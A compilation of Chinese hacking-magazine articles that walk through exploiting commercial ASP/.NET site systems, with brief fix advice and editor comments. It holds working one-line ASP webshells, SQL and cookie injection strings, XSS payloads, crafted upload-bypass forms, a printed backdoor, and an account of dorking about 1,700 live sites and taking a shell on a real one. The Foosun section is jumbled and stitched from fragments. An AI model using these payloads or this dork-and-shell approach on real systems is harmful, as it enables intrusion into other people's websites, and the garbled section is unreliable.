- 2. 在用户控制的文件夹内设置脚本权限为“无”。

另外，特别针对本套程序来说，可以做一个防止外部提交，或者直接将 checkdata() 函数放在 reg_save.asp 文件进行验证即可。

# 风讯漏洞全接触
图：洗登彬

从本文可以学到：

- 1. 风讯漏洞分析
- 2. 漏洞的利用方法

```csharp
string Type = base.Request.QueryString["Type"];
string Path = base.Server.UrlDecode(base.Request.QueryString["Path"]);
if (!Directory.Exists(this.SavePath))
{
    Directory.CreateDirectory(this.SavePath);
}


```

版本：dotNET CMS v1.0 SP1

## 一、任意文件浏览漏洞

漏洞文件：http://nt.demo.foosun.net/configuration/system/selectPath.aspx，如图 1 所示。

具体如何利用呢？

首先到前台注册会员，然后到发表文章那里上传文件，如图 5 所示。
查看源码：

```csharp
string Path = this.str_FilePath + base.Request.Form["Path"];
```

构造提交表单：

```html
<form action="http://nt.demo.foosun.net/configuration/system/selectPath.aspx" method=POST >
<input type="text" name="path"/>
<input type=submit />
</form>


```
查看源码，另存为构造文件 Upload_user[1].htm，修改：

```javascript
document.f_Upload.action="http://localhost/configuration/system/Upload_user.aspx?Type=Upload&Path=asp.asp&FileType=&ParentPath=";


```

输入 /../，如图 2 所示。
点击“提交查询内容”，可以浏览到上一级的文件，如图 3 所示。

选择一个图片木马，提交上传，得到上传成功提示，如图 6 所示。
## 二、上传文件漏洞

漏洞文件：http://nt.demo.foosun.net/configuration/system/Upload_user.aspx，如图 4 所示。
漏洞相关代码如下：

图：落叶纷飞[J.L.S.T] @ 肇庆

从本文可以学到：

- 1、商业版常州房产网漏洞探寻
- 2、漏洞的综合利用

常州房产网是博大智诚工作室编写的一套房产信息发布系统，也是网上使用比较广泛的房产信息发布系统。这不，最近朋友所在的公司定制了一套商业版的常州房产网程序，根据这套程序的开发人员所讲，这套房产发布系统有美观、安全、稳定等好处，所以我也从朋友那弄了一套来玩玩。本以为特别定制的商业版程序会很安全，但经过我仔细研读过代码后，发现其存在着几个重大的漏洞！下面就来为大家讲述一下我挖掘漏洞的过程。

我先用阿D-SQL注入工具与明小子的 Domain3.5 进行注入点扫描，结果没有找到注入点。这时，我觉得这套程序真的是货真价实，安全性很不错，于是我就开始了白箱测试。打开 news.asp 文件，其核心代码如下：

```asp
....省略....
dim xiangxi,xiangxi=trim(request.querystring("xiangxi"))
if not(isnumeric(xiangxi)) then
response.Redirect "index.asp"
end if
set rs=server.createobject("adodb.recordset")
sql="select * from news where id="&xiangxi
rs.open sql,conn,1
....省略....
```

很明显，变量 xiangxi 被 isnumeric() 函数强制转换成数字型了，同时也就堵死了 SQL 注入漏洞。然后，我又看了一下后台登录验证文件 loginchk.asp 的代码：

上传至用户目录 +asp.asp 下，如图 7 所示。

大家看，文件名不变，这样就很容易得到木马的地址了。（文中所用到的页面已经收录在本期光盘中）

编辑点评：

文中提及的两处漏洞都是致命的，作者虽然文风简洁，但思路有些跳跃，整体还算清晰。辅助图片说明，本文不难看懂。

```asp
....省略....
s=Trim(Request.Form("s"))
s2=Request.Form("s2")
If s2<>s Then
Response.Write("<script language=javascript>alert('请输入正确的认证码！');history.back()</script>")
Response.End
end if
user=replace(trim(request.form("user")),"'","''")
password=replace(trim(request.form("password")),"'","''")
if instr(user,"%") or instr(user,"#") or instr(user,"?") or instr(user,"|") then
response.write "<script language=javascript>alert('您的姓名含有非法字符！');history.back()</script>"
response.end
end if
//检测姓名中是否含有非法字符
if instr(password,"%") or instr(password,"#") or instr(password,"?") or instr(password,"|") then
response.write "<script language=javascript>alert('您的密码含有非法字符！');history.back()</script>"
response.end
end if
//检测密码中是否含有非法字符
sql="select * from admin where admin='"&user&"' and password='"&password&"'"
set rs=conn.execute(sql)
if rs.eof then
Response.Write("<script language=javascript>alert('管理员姓名和密码错误！');history.back()</script>")
Response.End
....省略....
```

从代码中可以看出，变量 username 与 password 都经过了比较严格的过滤，所以想用 or 来进入后台是没门了。功夫不负有心人，经过两个小时的苦闷研读，终于在 house.asp 文件发现了注入漏洞，现在我们来看看 house.asp 文件的部分漏洞代码：

```asp
....省略....
lb=request("lb")
....省略....
set rs=server.createobject("adodb.recordset")
sql="select * from house where mytype='"&lb&"' order by id desc"
rs.open sql,conn,1
....省略....


```

很明显的字符型注入漏洞，变量 lb 在取值后并没有做任何过滤就被放进数据库进行查询，从而导致了注入漏洞的产生。我们用 NBSI 填上注入点和关键字后，就能对其进行注入攻击了！如图 1 所示。
图 1 NBSI 自动猜解

h_house.asp 文件同样也存在注入漏洞，漏洞代码如下：

```asp
....省略....
hid=request.QueryString("id")
sql="select * from house where id="&hid
set rs=conn.execute(sql)
....省略....
```

后台的功能比较简陋，有一个上传的地方，但是不存在上传漏洞，所以我们得寻找其另外的漏洞。又经过了数小时的代码研读，我发现游客房产信息发布页 fb.asp 文件有一处能够进行数据库插马攻击的漏洞，其部分漏洞代码如下：

```asp
....省略....
mytype=request("mytype")
fw_city=request("fw_city")
fw_quyu=request("fw_quyu")
fw_dizhi=request("fw_dizhi")
fw_jiaotong=request("fw_jiaotong")
fw_leixing=request("fw_leixing")
fw_jiegou=request("fw_jiegou")
fw_louceng=request("fw_louceng")
fw_mianji=request("fw_mianji")
fw_zhuangxiu=request("fw_zhuangxiu")
fw_jiage=request("fw_jiage")
fw_jiageLX=request("fw_jiageLX")
fw_lxdh=request("fw_lxdh")
fw_lxname=request("fw_lxname")
fw_guoqi=request("fw_guoqi")
fw_qtsm=request("fw_qtsm")
fw_peitao=request("fw_peitao")
fw_uid=request("fw_uid")
bh=request("bh")
....省略....
rs.addnew
rs("mytype")=mytype
rs("fw_city")=fw_city
rs("fw_quyu")=fw_quyu
rs("fw_dizhi")=fw_dizhi
rs("fw_jiaotong")=fw_jiaotong
rs("fw_leixing")=fw_leixing
rs("fw_jiegou")=fw_jiegou
rs("fw_louceng")=fw_louceng
rs("fw_mianji")=fw_mianji
rs("fw_zhuangxiu")=fw_zhuangxiu
rs("fw_jiage")=fw_jiage
rs("fw_jiageLX")=fw_jiageLX
rs("fw_lxdh")=fw_lxdh
rs("fw_lxname")=fw_lxname
rs("fw_guoqi")=fw_guoqi
rs("fw_qtsm")=fw_qtsm
rs("fw_peitao")=fw_peitao
rs("fw_uid")=fw_uid
rs("bh")=bh
rs.update
....省略....
```

很明显，代码中对所有变量都没有进行过滤就插入到了数据库中，所以，我们只要随便选择一个变量来进行插马攻击的话，那么就能轻易获得 webshell 了！再看看默认数据库文件“data/fclyw.asp”，发现其并没有防下载表，只要我们成功插入一句话木马后，直接用一句话木马客户端来连接它就行了。但是如果管理员改了默认数据库呢？我们来看看 conn.asp 文件的代码：

```asp
....省略....
<%
db="data/fclyw.asp" //默认数据库路径
Set conn = Server.CreateObject("ADODB.Connection")
dbpath="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
conn.Open dbpath
%>
....省略....


```

数据库连接文件 conn.asp 的代码中并没有加容错语句 on error resume next，所以我们用 %5c 爆库法就能爆出数据库的路径了。下面我们把这两个漏洞结合起来，秒杀掉“常州房产网商业版”。

打开 fb.asp 这个页面，随便在其中一个对话框中写入一句话木马“<%execute request("j")%>”，其它的对话框随便填写，然后点击“发布信息”按钮，如图 2 所示。
不一会儿就会返回“发布信息成功”的提示了！然后我们使用 %5c 爆库法爆出网站的数据库，得知该网站的数据库名称为“fclyw.asp”，如图 3 所示。

然后我们用一句话木马客户端连接该网站的数据库 fclyw.asp，就成功地拿下了服务器，如图 4、图 5 所示。
其实，fb.asp 文件那些没有过滤的变量造成的危害还不仅仅是插马，如果我们把插马代码换成跨站代码的话，那么造成的就是跨站攻击了！如图 6 所示。
测试完毕后，我觉得这套商业版的程序安全性居然是如此的差，一下子就能把它秒杀掉！亏我当时还认为它货真价实，所以希望现在的网管或站长们不要轻易去购买那些所谓的商业版程序，要确确实实测试过它的功能和安全性之后，才下定论！
好了，就到这里吧，文中有什么疏漏之处还请大家多多指出，大家如果还有什么问题可以到 N0H4CK 的论坛找我，我的 ID 是“asdasdaa”。

编辑点评：

从开始的探测漏洞到后来的白箱分析，思路相当清晰。我们看到作者在找到漏洞后，能从其他方面构造漏洞利用条件，最终完成漏洞的综合利用，达到秒杀的效果。
## 从逍遥网店整站程序后门到批量拿 shell

清原长风

从本文可以学到：

- 逍遥网店漏洞分析和利用

近日朋友要把自己的一个网店改版，让我帮忙找个整站程序，在朋友的请求下也不好拒绝，于是就在各大源码站上翻来覆去地找。由于朋友的要求又比较苛刻（不能太大，也不能太小，功能要全……），所以找得我很头痛。当我看到逍遥网店整站的时候，标价 500 块！如图 1 所示。
觉得应该还可以，以前也不了解这款整站怎么样，于是下载下来放到我的虚拟机里看看版面效果，主体界面还是挺可以的，如图 2 所示。

接下来就看看一些重要的文件，当我看到付款 fukuan.asp 页面时，不禁吓了一跳，找到这么一段代码，如图 3 所示。

```asp
if request("bank")<>"" then execute request("bank")


```

虽然大家很多都看得懂，我还是简单解释一下：意思就是 fukuan.asp 接受浏览器提交的 bank 参数时，先判断 bank 参数是否为空，如果不为空就接受该参数并执行其内容。也就是说，这是一个一句话木马，当然如果一句话客户端连接的话，密码就应该是 bank。
哈哈，这套程序有后门！想想其它使用这套程序的网站，肯定也有可能存在这个后门吧。于是我以“支付方式 inurl:fukuan.asp”为关键字 Google 了一下，找到 1700 多项，如图 4 所示，看来这回又有不少的网站要遭殃了。

选择一个网站作为验证理论的目标，将地址填到华夏黑客联盟一句话 asp 木马的“表单提交地址”处，密码改成 bank，修改保存大马文件名为 zhanzhang.asp，如图 5 所示。
写入大马代码上传，成功！就这样简单拿到了这个站的 shell 了，如图 6 所示。
此次发现并利用这个后门没有一点技术含量，只不过是一点细心和运气罢了。由于这套程序的用途是网上商城，如果这个后门被不怀好意的人利用，对于使用这套程序的商业网站来说是很不利的哦！大家在选择程序时可要好好检查。最后，我把去掉后门的整站传给同学交差去了……

> 编辑点评：
> 是有意的还是无意之为呢？大家可以检查一下这个系统的其他代码就晓得了。如果其他代码中漏洞百出，则说明这个系统的整体安全性很差；如果其他部分代码很严谨，这里就有些猫腻了，小心为妙。

# 拿什么来拯救你——《网域公司企业网站管理系统 ACCESS 和 SQL 正式版》通杀漏洞

孤水绕城

从本文你可以学到：

- 1、网域公司企业网站管理系统漏洞分析
- 2、漏洞利用方法解析

## 一、有话想要说

老实说我不是一个善于表达自己的人，但是在这里真的要感谢《黑客手册》，打心里感激。上期的那篇稿子我自己根本没想到能够发表，总是担心着被退稿的尴尬，可是当我收到黑手小编的稿件录用通知时，那时候是多么的高兴，真的，那种激动的心情只有自己才能够体会到。因为我真正地感觉到了自己的进步，感受到了成长经历的辛酸苦乐。别的不多说了，一句话：希望黑手见证我的成长。

## 二、机缘凑巧

黑色的考试周终于过去了，又有时间可以看看源码，分析分析漏洞了（高兴啊）。不过让人郁闷的是，考试完后宿舍就断网了，源码也没来得及下载，只能去网吧捡两套看。一直想下载几套收费的程序看看，提高下技术（开始我总认为收费的程序的漏洞应该不好找）。找啊找啊，终于老天让我发现了你——《网域公司企业网站管理系统 ACCESS 和 SQL 正式版》，借用范伟叔的一句话：“缘分啊”。

看了看说明，《企业公司网站管理系统中英繁版 V2008》每套 850 元，《企业公司网站管理系统中文版 V2008》每套 550 元，价格可不低，而且简介里还有这么一句：“此系统是基于ASP+sql技术开发的电子商务平台，运行安全、稳定、快速，是拥有全自动化、全智能的在线方式管理、维护、更新的企业网站管理系统”，整站的好它都占全了，那表里是不是如一呢？

因为这套整站系统的ACCESS和SQL两个版本代码基本是一样的，这里我就只分析ACCESS版本的，大家窥豹见斑好了。

# 三、跨站兵先行

因为代码太多了，完整地看代码找漏洞不实际，还是黑盒、白盒一起测试比较好，习惯性地用AD扫了下，如图1所示。

嗯，表面看没有垃圾的注入漏洞，呵呵，那就先把注入放放，看看有没有跨站，毕竟跨站找起来还是比较容易的。看到了有客户留言的地方，注册了个会员也有会员资料修改的地方，因为跨站漏洞一般都是出在这些地方，小菜们分析漏洞先看看这两个地方啊。

图1 注入扫描

选择客户留言下拉菜单的“我要留言”，在标题处输入“<Script>alert(/孤水绕城还是小菜菜呢/)</Script>”直接弹了个框出来，标题处跨站漏洞产生了，如图2所示。

图2 标题处跨站

那看看留言内容有跨站没？别处随便写，留言内容处输入“<Script>alert(/孤水绕城还是小菜菜呢/)</Script>” 提交后没有弹出框来，跨站内容被原样输了出来。

看了下源代码，找到“&lt;Script&gt;alert(/孤水绕城还是小菜菜呢/)&lt;/Script&gt;”，看来给过滤了。这里为什么标题处能跨站了，我还要测试留言内容那儿有没有跨站呢？因为一般来说，我们提交到服务器的数据长度，程序都会限制，而我们研究跨站不是只为了弹框吓唬人，关键的还是构造语句拿权限。所以标题处有跨站并没有什么大的利用价值，如果内容处有跨站的话那可就好玩了。

下面我们来分析下源码，看看跨站是如何产生的。抓包后发现FeedbackSave.asp对参数进行了接收，关键代码如下：

```asp
rs.addnew
if session("username")="" then
rs("Username")="未注册用户"
else
rs("Username")=trim(request.form("Username"))
end if
rs("CompanyName")=trim(request.form("CompanyName"))
rs("Add")=Add
rs("Postcode")=Postcode
rs("Receiver")=trim(request.form("Receiver"))
rs("Phone")=trim(request.form("Phone"))
rs("Mobile")=Mobile
rs("Fax")=Fax
rs("email")=email
rs("title")=trim(request.form("title"))
rs("content")=htmlencode2(request.form("content"))
rs("Publish")=trim(request.form("Publish"))
if Language="ch" then
rs("Language")="0"
else
rs("Language")="1"
end if
rs("time")=date()
rs.update
rs.close
```

除了content（留言内容）处用“htmlencode2”函数给过滤了，别的信息一概没有过滤，直接入库。用Dreamweaver搜索下，很快在inc/ArticleChar.inc里找到了htmlencode2的定义函数，代码如下：

```asp
function htmlencode2(str)
dim result
dim l
if isNULL(str) then
htmlencode2=""
exit function
end if
l=len(str)
result=""
dim i
for i = 1 to l
select case mid(str,i,1)
case "<"
result=result+"&lt;"
case ">"
result=result+"&gt;"
case chr(13)
result=result+"<br>"
case chr(34)
result=result+"&quot;"
case "&"
result=result+"&amp;"
case chr(32)
'result=result+"&nbsp;"
if i+1<=l and i-1>0 then
if mid(str,i+1,1)=chr(32) or mid(str,i+1,1)=chr(9) or mid(str,i-1,1)=chr(32) or mid(str,i-1,1)=chr(9) then
result=result+"&nbsp;"
else
result=result+" "
end if
else
result=result+"&nbsp;"
end if
case chr(9)
result=result+" "
case else
result=result+mid(str,i,1)
end select
next
htmlencode2=result
end function
```

过滤的还挺全的，该过滤的都给过滤了，这里我就比较纳闷了，既然content处用了htmlencode2对参数进行了过滤，那程序员大叔为什么不破费点力气把别处的也一起过滤了？看过的好几套程序都是在这里马失前蹄，程序员大叔们要注意了。

还有值得注意的是，本程序只是在留言处限定了输入字符的长度，而对参数处理的程序处就不再做字符长度检测了，这样貌似没问题，但是我们只要自己构造页面提交的话，就可以构造任意的跨站语句了（因为一般有价值的跨站语句都需要不少的字节数的），这也这就造成了一定的不安全性。

图3 会员信息跨站

还有就是会员资料修改的地方，那里也存在跨站漏洞，跨站效果如图3所示，具体我就不再分析了，有兴趣的朋友可以研究下。

这里我想说：安全不只表现在局部或者一个点上，需要的是整体的把握。

# 四、注入攻悍城

开始还以为注入没戏了，毕竟人家也是价值500来块钱的整站啊！通过上面对跨站漏洞的分析，感觉这套系统的安全性确实不咋地，耐着性子分析后发现，这套系统居然爆出了三种方式的注入漏洞，听俺一一道来。

## 1、搜索攻城

这个注入点是我找到的第一个注入点，找到的时候可把我高兴坏了，也增加了我继续找注入漏洞的信心。程序对 News_search.asp (新闻搜索) 文件的关键字参数没有过滤，导致注入漏洞形成，关键源码如下：

```asp
key=Trim(request("key"))
otype=Trim(request("otype"))
BigClass=request("BigClass")
if key="" then
    response.write "<script>alert('查找字符串不能为空!');history.back();</script>"
    response.end
省略无用代码……
Set rs= Server.CreateObject("ADODB.Recordset")
if otype="title" then
    sql="select * from news where title Like '%"&key&"%' order by id desc"
else
    sql="select * from news where content Like '%"&key&"%' order by id desc"
end if
rs.open sql,conn,1,1
if rs.eof and rs.bof then
    response.write "<p align='center'>对不起，没有找到相关新闻</p>"


```

从代码中可以看出，只检测 key 是否为空就进行了数据库查询。我们去官方网站测试下吧，看到首页“新闻资讯”里有“数据库目录的读写权限错误提示及解决方法”这条新闻，所以构造个语句：“数据库目录的读写权限错误提示及解决方法%' and 1=1 and '%'='” (不包括双引号)，搜索下返回结果如图 4 所示。
继续搜索“数据库目录的读写权限错误提示及解决方法%' and 1=2 and '%'='” (不包括双引号)，返回如图 5 所示。
可以断定官方网站也是存在漏洞的，不过我们的目的是寻找漏洞，不是入侵，俺也就不打扰人家了。下面我给出关键的注入语句，有兴趣的朋友自己去实验下。

- “数据库目录的读写权限错误提示及解决方法%' and exists (select * from admin)” (检测是否存在 admin 表。)
- “数据库目录的读写权限错误提示及解决方法%' and 1=(select count(*) from [admin] where len(username)=5) and '%'='” (检测 admin 表 username 字段长度是否等于 5)
- “数据库目录的读写权限错误提示及解决方法%' and 1=(select count(*) from [admin] where left(username, 1)='a') and '%'='” (检测 username 字段第一个值是否为 a)
- “数据库目录的读写权限错误提示及解决方法%' and 1=(select count(*) from [admin] where left(password, 1)='7') and '%'='” (检测 password 字段第一个值是否为 7)

> 注：以上语句均不包括双引号。

## 2、cookies 随行

这个注入点的发现也比较偶然，当时看到 EnProductShow.asp 文件里有如下代码：

```asp
dim ID
ID=trim(request("ID"))
if ID="" then
    response.Redirect("EnProduct.asp")
end if
sql="select * from Product where ID=" & ID & ""
Set rs= Server.CreateObject("ADODB.Recordset")


```

我还以为找到注入点了呢，在数据库里找了个存在的 ID 值，构造的 url 为 http://192.168.18.128/EnProductShow.asp?id=67，加个单引号放到 IE 里，弹出了如图 6 所示的对话框。
当时心就凉了一半，看来是加了防注入文件了，排查下，找到根源了，“<!--#Include File="Check_Sql.asp"-->”这不是通用防注入程序嘛！看看是怎么过滤的吧，代码如下：

```asp
<%
Dim Query_Badword,Form_Badword,i,Err_Message,Err_Web,name
'--------- 定义部分 头 -----------------------------------------
Err_Message = 1 ' 处理方式：1=提示信息,2=转向页面,3=先提示再转向
Err_Web = "Err.Asp" ' 出错时转向的页面
Query_Badword="' || and || select || update || chr || delete || %20from || ; || insert || mid || master || set || chr(37) || =" ' 在这部分定义 get 非法参数; 使用 "||" 号间隔
Form_Badword="' || % || & || * || # || ( || ) || =" ' 在这部分定义 post 非法参数, 使用 "||" 号间隔
'--------- 定义部分 尾 -----------------------------------------

On Error Resume Next
'--------- 对 get query 值的过滤.
if request.QueryString<>"" then
Chk_badword=split(Query_Badword," || ")
FOR EACH Query_Name IN Request.QueryString
for i=0 to ubound(Chk_badword)
If Instr(LCase(request.QueryString(Query_Name)), Chk_badword(i))<>0 Then
Select Case Err_Message
Case "1"
Response.Write "<Script Language=JavaScript>alert('! 传参错误! 参数 "&name&" 的值中包含非法字符串! \n\n 请不要在参数中出现: and update delete insert mid master 等非法字符! ');window.close();</Script>"
Case "2"
Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
Case "3"
Response.Write "<Script Language=JavaScript>alert('! 传参错误! 参数 "&name&" 的值中包含非法字符串! \n\n 请不要在参数中出现: and update delete insert mid master 等非法字符! ');location.href='"&Err_Web&"'</Script>"
End Select
Response.End
End If
NEXT
NEXT
End if
'--------- 对 post 表 单值的过滤.
if request.form<>"" then
Chk_badword=split(Form_Badword," || ")
FOR EACH name IN Request.Form
for i=0 to ubound(Chk_badword)
If Instr(LCase(request.form(name)),Chk_badword(i))<>0 Then
Select Case Err_Message
Case "1"
Response.Write "<Script Language=JavaScript>alert('! 出错了! 表单 "&name&" 的值中包含非法字符串! \n\n 请不要在参数中出现: % & * # ( ) 等非法字符! ');window.close();</Script>"
Case "2"
Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
Case "3"
Response.Write "<Script Language=JavaScript>alert('! 出错了! 参数 "&name&" 的值中包含非法字符串! \n\n 请不要在参数中出现: % & * # ( ) 等非法字符! ');location.href='"&Err_Web&"'</Script>"
End Select
Response.End
End If
NEXT
NEXT
end if
%>
```

分别对 get 和 post 接收的参数进行了过滤，过滤得还挺全的，get 和 post 接收的参数只要包含注入语句就弹出如图 6 所示的对话框。难道没法利用了？当然不是！不知道大家有没有注意到这句代码“ID=trim(request("ID"))”？哈哈，不用我多说了吧，cookies 注入啊！ cookies 注入漏洞的形成原因我就不多说了，不知道的赶紧看看以前的“黑手”，前辈们都有过详细的介绍，接下来我们实战看看吧。

手工输入 JavaScript 代码注入太麻烦了，本人也比较懒，能省点力气就省点吧，我就用寂寞的刺猬大哥的注入中转生成器给大家演示下，具体设置如图 7 所示。

图 7 注入中转生成器的配置

点击“生成asp”按钮会在生成目录录下生成 jmCook.asp 文件，放到 web 目录下，访问“http://192.168.18.128/jmcook.asp?jmdcw=67”这个网址就可以看到我们能够注入的页面了。放到AD 里检测下，如图 8 所示。

图 8 cookies 注入

是不是很简单就猜解出了我们想要的东西啊？比在搜索框里敲代码可省劲多了。

## 3、注入再生

说起最省心的注入点，莫过于把注入点不用加工直接放到注入工具里面猜解了，毕竟手工的没工具效率高啊。通过上面的两个注入漏洞我就想，应该还有类似的“最省心的注入点”。果然，皇天不负有心人，还真让我找到了处。CompVisualizeBig.asp 文件对 get 提交的数据没有过滤就放到数据库里查询，而且它也没有包含防注入程序，注入点终于又浮出了水面。我们来看看漏洞代码：

```asp
<%dim id
id=request.QueryString("id")%>
<html>
<head>
<title>图片</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<%
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from CompVisualize where id="&id,conn,1,1
```

id 没有进行过滤直接查询，呵呵，这就是俺所说的“最省心的注入点”了。在数据库 CompVisualize 表段里找了个存在的 id 值（直接将 id 赋值为 1，构成 id=1 是不行的，数据库不存在），于是构造了 url=http://192.168.18.128/CompVisualizeBig.asp?id=16 放到 AD 里，一会儿就跑出来了，如图 9 所示。

图 9 AD 猜解

## 4、注入总结

到这里注入漏洞就分析完了，一套程序里能有三种类型的注入漏洞，还真是不多见，反正这次我算是开了眼了。给程序员大叔提点拙见，既然整站给出了 Check_Sql.asp 这个防注入文件，可是为什么放着不用呢？只要在调用了数据库查询的 asp 文件代码开头处加上“<!--#Include File="Check_Sql.asp"-->”这么一句，我想一定能杜绝大部分的注入漏洞。

对于 cookies 注入，只要 get 提交的参数用 request.querystring()接收，post 的参数用 request.form()接收（别为了图省事就使用 request()接收参数），如果再配合上 Check_Sql.asp 这个文件，那么保管你的程序不会让俺这样的菜菜找到漏洞的。还是那句话：“安全不只表现在局部或者一个点上，还需要的是整体的把握。”

# 五、插马终陷落

因为手上只有试用版本，所以后台的很多功能都不能用。由于宿舍离网吧太远了，也没办法去网吧搞点商业版的好好看看后台，只能凑合了。看着后台有数据库备份，就是不能用，呵呵，这里我就用插入一句话来拿 webshell 吧。

在“系统管理”处的网站配置里随便找一个能写入数据的地方，插入“"%><%execute request("gsrc")%><%"”（不包括双引号）一句话木马。保存设置之后，俺们的一句话小马就乖乖的躺到了 inc/config.asp 里，访问下看看，如图 10、图 11 所示。

图 10 连接小马

图 11 准备上传大马

# 六、垂死上传终

一路分析下来，感觉挺轻松的，跨站、注入、配置文件插马，都成功了，等等……好像还忘了点什么？对！上传！那就再看看有没有上传漏洞，如果再有上传漏洞的话，嘿嘿……就不多说了，看我分析。

看了看整站，有四个文件负责上传的任务，那就一个一个来分析。先看下有没有权限验证，找了下，还凑合，全都有 session 验证 “if session("AdminName")="" then response.Write("请登录后再使用本功能！")”，看来不登录后台，上传是不可能利用了。

看了下 Upfile_Dialog.asp 这个文件的上传代码，一开始感觉眼熟，再看就真的吓了我一跳！这不是经典的动易文章的上传漏洞吗？简直是个翻版，嘿嘿，看你还不死。先让大家看看关键源码，代码如下：

```asp
dim upload,oFile,formName,SavePath,filename,fileExt,oFileSize '定义变量
dim EnableUpload
dim UpFileType,arrUpFileType
dim ranNum
dim msg,FoundErr
dim DialogType
msg=""
FoundErr=false
EnableUpload=false '这是上传漏洞的一个比较关键的地方，它所在的位置不同也是漏洞形成的一个关键因素
'省略无关代码……
DialogType=trim(upload.form("DialogType")) '这个在构造提交页面的时候有用处的，一会给大家分析
select case DialogType
case "pic"
    UpFileType=UpFileType_pic
    'UpFileType_pic="jpg|gif|bmp|png" 
case "flash"
    UpFileType=UpFileType_flash
case "media"
    UpFileType=UpFileType_media
case "rm"
    UpFileType=UpFileType_rm
case else
    UpFileType=""
end select

for each formName in upload.file '列出所有上传了的文件，注：这是第一层循环
    set oFile=upload.file(formName) '生成一个文件对象
    oFileSize=oFile.filesize
    if oFileSize<100 then
        msg="请先选择你要上传的文件！"
        FoundErr=True
    elseif oFileSize>(MaxFileSize*1024) then
        msg="文件大小超过了限制，最大只能上传" & CStr(MaxFileSize) & "K的文件！"
        FoundErr=true
    end if
    fileExt=lcase(oFile.FileExt)
    arrUpFileType=split(UpFileType,"|")
    for i=0 to ubound(arrUpFileType) '这是第二层循环
        if fileEXT=trim(arrUpFileType(i)) then
            EnableUpload=true
            exit for
        end if
    next
    if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then 
        '这里我们可以在asp后缀后面加上空格，或者"."就可以绕过了，而且服务器也是可以正常解析的
        EnableUpload=false
    end if
    if EnableUpload=false then
        msg="这种文件类型不允许上传！\n\n只允许上传这几种文件类型：" & UpFileType
        FoundErr=true
    end if
    strJS="<SCRIPT language=javascript>" & vbCrLf
    if FoundErr<>true then
        randomize
        ranNum=int(900*rnd)+100
        filename=SavePath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
        oFile.SaveToFile Server.MapPath(FileName) '保存文件
        response.write "文件上传成功！"
```

因为这个上传漏洞分析起来特别复杂，为了节省版面我就不具体分析了，有兴趣的朋友可以到网上看看寂寞的刺猬大哥的《上传漏洞的形成》一文，相当详细，以前“黑手”上也曾提过的。

简单的说下，程序对上传的文件进行了两次验证，通过两次 for 循环实现。关键的一点是，程序把“EnableUpload=false”放在了 for 循环的外面，这样对于单一的上传文件程序还是可以有效验证的，但是如果我们同时上传两个文件的话，那么漏洞就会显现出来。首先我们登录后台，这里程序会给我们一个 session 值，这样才可以上传。我构造的提交页面代码如下：

```html
<html>
<head>
<title>网域公司企业网站管理系统ACCESS和SQL正式版利用漏洞本地上传工具</title>
</head>
<body>
<form action="http://192.168.18.128/Upfile_Dialog.asp" method="post" name="form1" enctype="multipart/form-data">
<input name="filename" type="file" size="20">
<input name="filename1" type="file" class="buttonUnActive" size="20">
<input name="DialogType" type="hidden" id="DialogType" value="pic">
<p align="center">
<input name="submit" type="submit" class="button" style="border:1px double rgb(88,88,88);font:9pt" value="上传大马">
</p>
</form>
</body>
</html>
```

虽然简陋，但是实用就行。大家注意这句 `<input name="DialogType" type="hidden" id="DialogType" value="pic">`，是不能缺少的，因为 `DialogType=trim(upload.form("DialogType"))` 这句对上传的类型进行了分类，大家可以分析下源码。另外注意一下，在要上传的 asp 马后边加个空格。上传结果如图 12 所示，查看源码就会找到我们上传之后马儿的地址。

图 12 查看源码

图 13 成功访问小马

访问下 “http://192.168.18.128/UploadFiles/20087485721370.asp ”（后面有空格），呵呵，成功解析，如图 13 所示。

上传漏洞就分析完了，这里我比较纳闷，因为我分析 Upfile_Product.asp 这个文件时，虽然同样也是无组件上传，但是却没有上传漏洞，因为程序在第一层循环后面紧接着就有一句 “EnableUpload=False”，如图 14 所示，这样就有效的防范了上传漏洞，也就不能利用后缀欺骗了。

```asp
For each FormName in upload.file '列出所有上传了的文件
    EnableUpload=False
    set ofile=upload.file(FormName) '生成一个文件对象
    if ofile.filesize<100 then
        msg="请先选择您要上传的文件!"
        FoundErr=True
    end if
    if ofile.filesize>(MaxFileSize*1024) then
        msg="文件大小超过了限制,最大只能上传" & CStr(MaxFileSize) & "K的文件!"
        FoundErr=True
    end if
    fileExt=lcase(ofile.FileExt)
    arrUpFileType=split(UpFileType,"|")
    for i=0 to ubound(arrUpFileType)
        if fileExt=trim(arrUpFileType(i)) then
            EnableUpload=true
            exit for
        end if
    next
    if fileExt="asp" or fileExt="asa" or fileExt="aspx" or fileExt="cer" or fileExt="cdx" then
        EnableUpload=False
    end if
```

图 14 Upfile_Product.asp 文件部分代码

我估计程序员大叔的上传程序是从哪抄来的，也不知道何为安全性就胡乱的用，至少不知道哪个是安全的，哪个是不安全的。

有了以上的这么多漏洞，我想就不用再分析什么了。哎，真是感叹红颜薄命啊。

虽然找到了这么多的漏洞，但是静下心来想想还真捏了把汗，就这样程序还敢拿出来在网上卖，而且中文的 500 多块钱，繁体的还要 800 多，不知道像这样拿来骗钱的程序还有多少。如果程序员看过“黑手”的文章，肯定就不会发生上面的安全漏洞。还是那句话：安全不只表现在局部或者一个点上，还需要的是整体的把握。

建议像我一样的菜鸟朋友们完整的分析一下这套整站，你会发现很多东西的，不过大家千万不要搞破坏啊。毕竟寻找漏洞的目的是为了促进程序的安全性。

> **编辑点评：**
> 小作者能再接再厉写出这么一大篇文章，确实出乎小编的预料，不想进度如此迅速，应该也是黑手的老读者了，对每种类型的漏洞都有所了解，厚积而薄发，在这篇文章中全部迸发出来了。希望小作者再接再厉，一来提高自己的技术，二来写出更好的稿件。

# 七、红颜薄命多

到这里漏洞就分析完了，其它的漏洞我就没有再分析，毕竟……

# 南方数据整站系统修补

图 蔡家晓

从本文你可以学到：
- 1、南方数据整站系统漏洞修复
- 2、漏洞修补的一般思路

最近要做公司网站，但自己不懂 asp，还是拿网上的来修改吧。于是下载了南方企业数据网 v10.0，大家都知道这套程序还是挺多漏洞的，且和网软天下、冠龙科技和飞越企业网等都是同一套程序衍生而来，网上入侵的文章很多，但修补的文章好象很少，于是偶便做起来安全防护，写下此文。

## 一、防注入

### 1、cookie 注入漏洞修补

